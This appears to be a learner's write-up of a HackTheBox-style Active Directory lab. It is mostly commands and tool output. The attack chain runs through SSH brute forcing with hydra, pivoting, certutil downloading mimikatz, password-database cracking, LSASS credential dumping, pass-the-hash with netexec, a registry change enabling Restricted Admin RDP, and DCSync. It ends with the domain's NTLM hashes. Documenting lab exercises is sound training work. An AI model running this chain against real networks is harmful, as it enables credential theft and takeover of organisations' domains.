

# Skills Assessment - Password Attacks

## The Credential Theft Shuffle

[The Credential Theft Shuffle](https://adsecurity.org/?p=2362), as coined by `Sean Metcalf`, is a systematic approach attackers use to compromise Active Directory environments by exploiting `stolen credentials`. The process begins with gaining initial access, often through phishing, followed by obtaining local administrator privileges on a machine. Attackers then extract credentials from memory using tools like Mimikatz and leverage these credentials to `move laterally across the network`. Techniques such as pass-the-hash (PtH) and tools like NetExec facilitate this lateral movement and further credential harvesting. The ultimate goal is to escalate privileges and `gain control over the domain`, often by compromising Domain Admin accounts or performing DCSync attacks. Sean emphasizes the importance of implementing security measures such as the `Local Administrator Password Solution (LAPS)`, enforcing `multi-factor authentication`, and `restricting administrative privileges` to mitigate such attacks.
## Skills Assessment

`Betty Jayde` works at `Nexura LLC`. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

|Host|IP Address|
|---|---|
|`DMZ01`|`10.129.*.*` **(External)**, `172.16.119.13` **(Internal)**|
|`JUMP01`|`172.16.119.7`|
|`FILE01`|`172.16.119.10`|
|`DC01`|`172.16.119.11`|
#### Pivoting Primer


# Question

```shell
unsername-anarchy Betty Jayde > usernames.txt
hydra -L usernames.txt -p 'Texas123!@#' ssh://10.129.234.116

[DATA] attacking ssh://10.129.234.116:22/
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#
```

```shell
ssh jbetty@IP -p Texas123!@#
```

I looked for lots of attack vector 


We have to set a stablished connection with the internal network

```shell
sshuttle -r jbetty@10.129.234.116 172.16.119.0/24 -v
# In other terminal
# ping is disabled but rdp no
xfreerdp /v:172.16.119.7 /u:hwilliam /dynamic-resolution /p:dealer-screwed-gym1 
# Password found
dealer-screwed-gym1
```

```powershell
certutil -urlcache -split -f http://172.16.119.13:8080/mimikatz.exe C:\Temp\mimikatz.exe


```


```shell
file Employee-Passwords_OLD.psafe3
Employee-Passwords_OLD.psafe3: Password Safe V3 database
```

```shell
locate '*2john' 
/usr/bin/pwsafe2john Employee-Passwords_OLD.psafe3 > psafe3.hash
john --wordlist=/usr/share/wordlists/rockyou.txt psafe3.hash
---
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 262144 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
michaeljackson   (Employee-Passwords_OLD)     
1g 0:00:01:17 DONE (2026-10-16 18:59) 0.01290g/s 132.1p/s 132.1c/s 132.1C/s total90..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I used Password Safe 3 app to got the next credencials


| Nombre         | Usuario  | Contraseña            |
| -------------- | -------- | --------------------- |
| Betty Jayde    | jbetty   | xiao-nicer-wheels5    |
| David Brittni  | bdavid   | caramel-cigars-reply1 |
| Tom Sandy      | stom     | fails-nibble-disturb4 |
| William Hallam | hwilliam | warned-wobble-occur8  |
```shell
xfreerdp /v:172.16.119.11 /u:bdavid /p:'caramel-cigars-reply1' /d:nexura.htb
```

```powershell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# OR (one line)
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit" > C:\Temp\creds_admin.txt
---
Authentication Id : 0 ; 258343 (00000000:0003f127)
Session           : RemoteInteractive from 2
User Name         : stom
Domain            : NEXURA
Logon Server      : DC01
Logon Time        : 10/16/2026 9:20:46 PM
SID               : S-1-5-21-1333759777-277832620-2286231135-1106
	msv :	
	 [00000003] Primary
	 * Username : stom
	 * Domain   : NEXURA
	 * NTLM     : 21ea958524cfd9a7791737f8d2f764fa
	 * SHA1     : f2fc2263e4d7cff0fbb19ef485891774f0ad6031
	 * DPAPI    : 06e85cb199e902a0145ff04963e7dd72
	tspkg :	
	wdigest :	
	 * Username : stom
	 * Domain   : NEXURA
	 * Password : (null)
	kerberos :	
	 * Username : stom
	 * Domain   : NEXURA.HTB
	 * Password : calves-warp-learning1 # Here we have the psswd
	ssp :	
	credman :	
```

And we have the cred `stom` with psswd `calves-warp-learning1`.

```shell
netexec smb 172.16.119.11 -u stom -H '21ea958524cfd9a7791737f8d2f764fa' -x whoami
---
SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.119.11   445    DC01             [+] nexura.htb\stom:21ea958524cfd9a7791737f8d2f764fa (Pwn3d!)
SMB         172.16.119.11   445    DC01             [+] Executed command via wmiexec
SMB         172.16.119.11   445    DC01             nexura\stom
```

Now, I tried to RDP to DC01

```shell
xfreerdp /v:172.16.119.11 /u:stom /pth:21ea958524cfd9a7791737f8d2f764fa
```



The connection is restricted because of the regsiter value. So, through netexec we can change the register.

```shell
netexec smb 172.16.119.11 -u stom -H '21ea958524cfd9a7791737f8d2f764fa' -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
# LOGIN AGAIN
xfreerdp /v:172.16.119.11 /u:stom /pth:21ea958524cfd9a7791737f8d2f764fa
```

>[!Important]
>I used the NTLM hash to get acces but we also could use the password `calves-warp-learning1`

```shell
certutil -urlcache -split -f http://172.16.119.13:8080/mimikatz.exe C:\Temp\mimikatz.exe
```

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit" > C:\Temp\creds_admin2.txt
```

The only way I found to tranfer the output of mimikatz execution was to execute it from `netexec`.

```shell
nxc smb 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa -d nexura.htb -x 'C:\Temp\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"' | tee mimikatz_dc01.txt
---
SMB                      172.16.119.11   445    DC01             Authentication Id : 0 ; 1703430 (00000000:0019fe06)
SMB                      172.16.119.11   445    DC01             Session           : RemoteInteractive from 2
SMB                      172.16.119.11   445    DC01             User Name         : stom
SMB                      172.16.119.11   445    DC01             Domain            : NEXURA
SMB                      172.16.119.11   445    DC01             Logon Server      : (null)
SMB                      172.16.119.11   445    DC01             Logon Time        : 10/16/2026 10:46:49 PM
SMB                      172.16.119.11   445    DC01             SID               : S-1-5-21-1333759777-277832620-2286231135-1106
SMB                      172.16.119.11   445    DC01                msv :
SMB                      172.16.119.11   445    DC01                 [00000003] Primary
SMB                      172.16.119.11   445    DC01                 * Username : DC01$
SMB                      172.16.119.11   445    DC01                 * Domain   : NEXURA
SMB                      172.16.119.11   445    DC01                 * NTLM     : 90fddbf576591bb76d8ce6f227123e90
SMB                      172.16.119.11   445    DC01                 * SHA1     : 5934f8ed01447dfe31b4990ee9ef735eb74b7cd1
SMB                      172.16.119.11   445    DC01                 * DPAPI    : c96ffbdc5782312e8ef19f14b3696ff5
SMB                      172.16.119.11   445    DC01                tspkg :
SMB                      172.16.119.11   445    DC01                wdigest :
SMB                      172.16.119.11   445    DC01                 * Username : DC01$
SMB                      172.16.119.11   445    DC01                 * Domain   : NEXURA
SMB                      172.16.119.11   445    DC01                 * Password : (null)
```

We got the NTLM `90fddbf576591bb76d8ce6f227123e90`. And we can have 

```shell
/usr/bin/impacket-secretsdump -hashes :90fddbf576591bb76d8ce6f227123e90 'nexura.htb/DC01$@172.16.119.11' -just-dc-ntlm
---
*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:11dee8f685882eb4f78a450291569bd0:::
nexura.htb\bdavid:1105:aad3b435b51404eeaad3b435b51404ee:82c5ef7f2612567964070d04fe46a5d0:::
nexura.htb\stom:1106:aad3b435b51404eeaad3b435b51404ee:21ea958524cfd9a7791737f8d2f764fa:::
nexura.htb\hwilliam:1107:aad3b435b51404eeaad3b435b51404ee:f3ac86b290a51fb59a1a66f50b658e1f:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:90fddbf576591bb76d8ce6f227123e90:::
FILE01$:1108:aad3b435b51404eeaad3b435b51404ee:fcaf3fb936a4013ef26a5d9b7048ff09:::
JUMP01$:1109:aad3b435b51404eeaad3b435b51404ee:007ce31e2336ac9168dc5cde7854ebfb:::
```

Answer: 36e09e1e6ade94d63fbcab5e5b8d6d23
